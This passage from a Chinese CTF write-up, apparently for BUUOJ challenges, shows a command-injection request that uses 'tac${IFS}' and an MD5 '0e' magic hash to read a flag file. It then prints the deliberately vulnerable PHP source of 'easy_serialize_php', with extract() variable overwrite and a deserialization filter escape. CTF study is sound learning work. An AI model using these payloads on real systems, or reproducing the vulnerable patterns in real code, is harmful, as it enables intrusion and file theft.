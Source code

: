 耗时比较长, 出来的结果是 `0e215962017`

最后命令执行的绕过就很简单了

```
http://178bbba8-cd71-4046-b787-e861e97280ac.node4.buuoj.cn:81/fl4g.php?num=2019e1&md5=0e215962017&get_flag=tac${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

## [安洵杯 2019]easy_serialize_php（反序列化，extract变量覆盖，反序列化字符逃逸）

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```
